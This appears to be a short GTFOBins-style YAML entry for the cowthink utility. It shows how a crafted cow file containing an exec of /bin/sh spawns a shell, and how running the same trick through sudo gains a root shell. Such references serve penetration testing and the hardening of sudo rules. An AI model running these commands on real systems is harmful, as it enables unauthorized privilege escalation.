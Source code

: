 functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowthink -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowthink -f $TF x
---
